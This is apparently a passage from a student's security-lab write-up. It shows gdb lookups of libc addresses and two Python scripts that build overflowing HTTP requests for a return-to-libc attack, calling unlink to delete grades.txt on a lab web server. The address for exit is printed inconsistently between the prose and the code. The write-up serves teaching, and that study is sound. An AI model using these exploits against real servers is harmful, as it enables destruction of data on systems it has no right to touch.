 And another two addresses we need are the address of 'unlink' and 'exit' syscalls. We can also easily find these using gdb

```
(gdb) p unlink
(gdb) p exit
```

And what we can get

```
addr of unlink = 0x40102450
addr of exit = 0x400058150
```

Our two exploits are as follows:

exploit-4a.py

```python
stack_buffer = 0xbfffdbf4
#stack_saved_ebp = 0x12345678
stack_retaddr = 0xbfffde0c
unlink_addr = 0x40102450
exit_addr = 0x40058150
str_addr = stack_retaddr+0xc
args = "/home/httpd/grades.txt"

def build_exploit(shellcode):
    ## Things that you might find useful in constructing your exploit:
    ##   urllib.quote(s)
    ##     returns string s with "special" characters percent-encoded
    ##   struct.pack("<I", x)
    ##     returns the 4-byte binary encoding of the 32-bit integer x
    ##   variables for program addresses (ebp, buffer, retaddr=ebp+4)
    req =   "GET / HTTP/1.0\r\n" +\
             "EXP: " + "A"*(stack_retaddr-stack_buffer) + struct.pack("<I", unlink_addr) + struct.pack("<I", exit_addr) + struct.pack("<I", str_addr) + args + "\r\n"+\
            "\r\n"
    return req
```

exploit-4b.py
```python
stack_buffer = 0xbfffee08
#stack_saved_ebp = 0x12345678
stack_retaddr = 0xbffff61c
unlink_addr = 0x40102450
exit_addr = 0x40058150
args = "/home/httpd/grades.txt"
str_addr = stack_retaddr + 0xc

def build_exploit(shellcode):
    ## Things that you might find useful in constructing your exploit:
    ##   urllib.quote(s)
    ##     returns string s with "special" characters percent-encoded
    ##   struct.pack("<I", x)
    ##     returns the 4-byte binary encoding of the 32-bit integer x
    ##   variables for program addresses (ebp, buffer, retaddr=ebp+4)
    req =   "GET /" + "A"*(stack_retaddr-stack_buffer-1) + struct.pack("<I", unlink_addr) + struct.pack("<I", exit_addr) + struct.pack("<I", str_addr) + args + " HTTP/1.0\r\n" +\
            "\r\n"
    return req
```
